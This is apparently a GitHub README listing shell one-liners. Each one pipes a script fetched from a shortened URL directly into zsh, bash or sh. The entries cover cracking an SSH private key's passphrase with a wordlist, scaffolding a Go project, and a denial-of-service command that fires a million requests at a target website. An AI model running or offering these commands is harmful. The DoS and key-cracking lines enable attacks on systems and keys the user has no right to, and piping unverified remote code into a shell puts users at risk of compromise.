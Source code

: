 # Magic oneliners

This repository is about bash/python/programming language oneliners that can do an incredible amount of work.

## TOC

* [Crack a ssh private key](https://raw.githubusercontent.com/4thel00z/oneliners/master/scripts/crack_ssh_password.zsh)

```
# Download via: 
curl  --proto '=https' --tlsv1.2 -L -sSf https://shortly.fun/crackssh | zsh -s <path-to-private-key> <path-to-wordlist> 

# or in case you haven't installed zsh yet or use fish 
curl  --proto '=https' --tlsv1.2 -L -sSf https://shortly.fun/crackssh | bash -s <path-to-private-key> <path-to-wordlist> 
```

* [Setup a cool go project template](https://github.com/4thel00z/service_templated)

```
# Ideally you do this in your ~/go/src/github.com/<your-gihub-username>/ or other smart places
curl  --proto '=https' --tlsv1.2 -L -sSf https://shortly.fun/boilerplate | bash -s <project_name>
```

* [DOS a webpage](http://gendos.site)

```
# What this does, is it downloads https://github.com/rakyll/hey for amd64 linux and shoots against the 'target.com'
curl -L "gendos.site?args=https://target.com%20-n=1000000" | sh
```

## License

This project is licensed under the GPL-3 license.
